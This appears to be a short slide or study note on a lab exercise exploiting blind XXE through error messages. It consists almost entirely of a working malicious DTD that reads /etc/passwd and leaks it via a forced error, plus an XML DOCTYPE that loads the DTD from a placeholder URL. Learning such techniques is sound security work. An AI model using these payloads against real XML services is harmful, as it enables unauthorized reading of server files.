

# Exploiting blind XXE to retrieve data via error messages
 Payloads used :-
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
XML file:-
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>